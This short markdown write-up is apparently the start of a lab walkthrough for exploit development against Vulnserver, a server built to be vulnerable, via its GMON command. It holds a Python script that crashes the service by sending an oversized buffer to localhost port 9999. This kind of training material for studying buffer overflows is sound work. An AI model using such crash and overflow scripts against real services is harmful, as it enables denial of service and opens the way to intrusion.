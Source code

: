 # Vulnserver - GMON Command

Downloaded from: https://github.com/stephenbradshaw/vulnserver

## Initial Crash

```py
import struct
import socket

VULNSRVR_CMD = b"GMON  /.:/"  # change me
CRASH_LEN = 5011  # change me
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

target = (TARGET_IP, TARGET_PORT)  # vulnserver

payload = VULNSRVR_CMD
payload += b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512)  # Welcome to Vulnerable Server! ... 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")
```
